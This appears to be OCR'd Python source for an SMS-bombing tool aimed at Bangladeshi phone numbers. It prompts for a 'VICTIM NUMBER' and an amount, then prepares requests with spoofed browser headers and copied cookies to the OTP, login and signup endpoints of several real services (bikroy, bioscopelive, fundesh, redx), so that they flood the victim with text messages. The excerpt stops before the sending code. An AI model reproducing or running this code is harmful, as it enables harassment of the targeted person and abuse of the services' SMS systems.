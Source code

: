 print (logo)
print(w+"[~] please wait Internet checking...  ")
os.system('clear')
print(logo)
print(w+"[~] Connecting To The Internet")
print(f"\n{r}Note : {w}1 Sms Can Sent Up To 18 sms !!")
try:
 request = requests.get("https://www.google.com/", timeout=2)
 print("\n\033[1;37m[\033[1;32m#\033[1;37m]"+"\033[1;32m Connetcted ")
except (requests.ConnectionError, requests.Timeout) as exception:
 print("\n\033[1;37m[\033[1;32m#\033[1;37m] \033[1;31mðŸ˜¢ Your Internet Connection Is Poor !")
number=input(f"{c}\n[ VICTIM NUMBER ] :{w} +880")
amo=int(input(c+"\n[ AMOUNT ] : "+w))
xak(f"\n\n\t {w}<{r}/{w}> {g}STAY WITH ROOT×JAHID ;) {w}<{r}/{w}>\n\n")
input(f"\t\t\t{r}Press Enter....")
os.system("clear")
url1 = "https://bikroy.com/data/phone_number_login/verifications/phone_login?phone=0"+number


url2 = "https://www.bioscopelive.com/en/login/send-otp?phone=880"+number+"&operator=bd-otp"

headers2 = CaseInsensitiveDict()
headers2["referer"] = "https://www.bioscopelive.com/en/login?type=login"
url3 = "https://fundesh.com.bd/api/auth/generateOTP?service_key="
headers3 = CaseInsensitiveDict()
headers3["Content-Type"] = "application/json"
data3 = '{"msisdn":"'+number+'"}'
url4 = "https://fundesh.com.bd/api/auth/resendOTP"
headers4 = CaseInsensitiveDict()
headers4["Content-Type"] = "application/json"
data4 = '{"msisdn":"'+number+'"}'
url5 = "https://api.redx.com.bd/v1/user/signup"

headers5 = CaseInsensitiveDict()
headers5["Accept"] = "application/json, text/plain, */*"
headers5["Accept-Encoding"] = "gzip, deflate, br"
headers5["Accept-Language"] = "en-US,en;q=0.5"
headers5["Connection"] = "keep-alive"
headers5["Content-Length"] = "65"
headers5["Content-Type"] = "application/json"
headers5["Cookie"] = "_ga=GA1.3.1117093475.951445077; _gid=GA1.3.134905361.951445077; WZRK_S_4R6-9R6-155Z=%7B%22p%22%3A1%2C%22s%22%3A951410497%2C%22t%22%3A951445096%7D; WZRK_G=6184e322525e444ab0f771f7f041933a; _fbp=fb.2.951445106167.1213159921; _hjSessionUser_2064965=eyJpZCI6ImRhMmMzMDY1LWNkMDYtNWFlOC04NTA4LTg0MzYzYWM4Y2RiNyIsImNyZWF0ZWQiOjE2NTE0NDUxMDkwMjMsImV4aXN0aW5nIjpmYWxzZX0=; _hjFirstSeen=1; _hjSession_2064965=eyJpZCI6IjMxMGI0MDQ2LTY3OGUtNDM2OS1hOWY1LTRlYzlmOWEyMDhkNCIsImNyZWF0ZWQiOjE2NTE0NDUxMTg1NzgsImluU2FtcGxlIjpmYWxzZX0=; _hjAbsoluteSessionInProgress=1"
headers5["Host"] = "api.redx.com.bd"
headers5["Origin"] = "https://redx.com.bd"
headers5["Referer"] = "https://redx.com.bd/registration/"
headers5["TE"] = "Trailers"
headers5["User-Agent"] = "Mozilla/5.0 (X11; Linux x66_64; rv:76.0) Gecko/20100101 Firefox/76.0"
headers5["x-access-token"] = "Bearer null"
